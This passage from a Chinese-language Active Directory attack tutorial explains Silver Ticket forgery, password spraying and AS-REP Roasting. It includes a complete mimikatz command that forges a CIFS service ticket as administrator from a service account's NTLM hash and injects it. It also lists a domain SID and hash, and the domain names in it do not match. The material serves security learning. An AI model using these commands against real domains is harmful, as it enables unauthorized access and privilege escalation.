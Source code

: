 但是在有些服务中并没有验证 PAC 这一步，这也是白银票据能成功的前提，因为就算拥有用户的 Hash，可以伪造 TGS，但是也不能制作 PAC，PAC 当然也验证不成功，但是有些服务不去验证 PAC，这是白银票据成功的前提。

#### 2）白银票据实验分析

**a、准备前期需要的信息：**

不需要与KDC进行交互、需要server的NTLM hash。

- 域名：secknow.com
- 域 SID：S-1-5-21-1315137663-3706837544-1429009142
- 目标服务器的 FQDN：
- 可利用的服务：
- 服务账号的 NTLM 哈希值(DC$)：6decb5d75eb5727d8535e67680b52571
- 要伪造的用户名：administrator

**b、用白银票据来伪造 CIFS 服务权限**

CIFS 服务通常用于Windows 主机之间的文件共享。

```cmd
# kerberos::golden /domain:域名 /sid:域 SID /target:FQDN /rc4:server 机器的哈希 /service:可利用的服务 /user:要伪造的用户名 /ptt

kerberos::golden /domain:whoamianony.org /sid:S-1-5-21-1315137663-3706837544-1429009142 /target:DC.secknow.com /rc4:6decb5d75eb5727d8535e67680b52571 /service:cifs /user:administrastor /ptt
```

**c、攻击成功后执行其他操作**

**d、白银票据和黄金票据对比**

| 对比项     | 黄金票据                | 白银票据                    |
| ---------- | ----------------------- | --------------------------- |
| 伪造票据   | TGT                     | ST                          |
| 认证流程   | 同KDC交互、但不同AS交互 | 不同KDC交换，直接访问Server |
| 获取的权限 | 所有域内主机的访问权限  | 特定服务的访问权限          |
| 加密方式   | 由krbtgt NTKM-Hash加密  | 由服务账号NTLM-Hash加密     |

### 1.2.4 密码喷洒攻击（Password Spraying）

对密码进行喷洒式的攻击，这个叫法很形象，因为它属于自动化密码猜测的一种。这种针对所有用户的自动密码猜测通常是为了避免帐户被锁定，因为针对同一个用户的连续密码猜测会导致帐户被锁定。所以只有对所有用户同时执行特定的密码登录尝试，才能增加破解的概率，消除帐户被锁定的概率。普通的爆破就是用户名固定，爆破密码，但是密码喷洒，是用固定的密码去跑用户名。

### 1.2.5 AS-REP Roasting

AS_REQ & AS_REP 认证的过程是 Kerberos 身份认证的第一步，该过程又被称为预身份验证。预身份验证主要是为了防止密码脱机爆破。而如果域用户设置了选项 "Do not require Kerberos preauthentication"（该选项默认没有开启）关闭了预身份验证的话，攻击者可以使用指定的用户去请求票据，向域控制器发送`AS_REQ`请求，此时域控会不作任何验证便将 TGT 票据和加密的 Session-key 等信息返回。因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。这种攻击方式被称作 AS-REP Roasting 攻击。

## 1.3 参考资料
